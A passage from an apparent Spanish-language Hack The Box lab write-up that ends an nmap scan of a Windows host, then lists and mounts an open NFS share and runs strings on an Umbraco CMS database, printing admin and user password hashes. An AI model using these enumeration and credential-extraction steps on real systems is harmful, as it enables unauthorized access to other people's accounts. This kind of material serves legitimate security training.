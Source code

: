 ```
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-05T23:16:44
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.85 seconds
```
### NFS Service Enumeration

`Listamos` los `directorios` compartidos

```
# showmount -e 10.129.230.172
Export list for 10.129.230.172:
/site_backups (everyone)
```

Nos `montamos` la `carpeta compartida` en nuestro directorio `/mnt`

```
# sudo mount -t nfs 10.129.230.172:/site_backups /mnt/backups           
```

En `App_Data`está el archivo `Umbraco.sdf` que es la `base de datos` del `CMS Umbraco`

```
# strings Umbraco.sdf | head -n 10 
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
@{pv
qpkaj
```
